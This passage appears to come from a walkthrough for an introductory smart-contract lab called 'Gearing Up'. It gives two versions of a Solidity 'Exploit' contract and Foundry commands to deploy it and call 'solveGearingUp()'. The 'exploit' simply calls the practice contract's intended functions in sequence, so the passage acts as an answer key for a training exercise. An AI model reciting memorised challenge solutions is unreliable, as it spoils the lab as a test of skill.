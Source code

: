 ```solidity
        GU.sendMoneyHere{value: msg.value}();
        GU.sendSomeData("GearNumber1", 687221, 0x1a2b3c4d, address(this));
        GU.withdrawReward();
        GU.completedGearingUp();
    }

    receive() external payable { }

}
```
&nbsp;  
To deploy the exploit, we can use this command below on the root of your project folder. &nbsp;  
&nbsp;  

```bash
forge create src/gearing-up/Exploit.sol:Exploit -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR 
```
&nbsp;  
You can adjust the command to your needs, by doing this, we are deploying our contract to the network. You will see *Deployer*, *Deployed to*, and *Transaction Hash*, your contract is now deployed with an address of *Deployed To*. To finish up and solve the lab, let's call our *solveGearingUp()*. &nbsp;  
&nbsp;  

```bash
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "solveGearingUp()" --value 5ether
```
&nbsp;  
Here is another version of the Exploit contract, this one will require you to include the Ether on the deployment instead when calling them, like the last version of the contract. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./GearingUp.sol";

contract Exploit{
    Setup public setup;
    GearingUp public immutable GU;

    constructor(address _setup) payable {
        require(msg.value == 5 ether);
        setup = Setup(_setup);
        GU = GearingUp(setup.GU());
    }

    function solveGearingUp() public {
        GU.callThis();
        GU.sendMoneyHere{value: 5 ether}();
        GU.sendSomeData("GearNumber1", 687221, 0x1a2b3c4d, address(this));
        GU.withdrawReward();
        GU.completedGearingUp();
    }

    receive() external payable { }

}
```
&nbsp;  
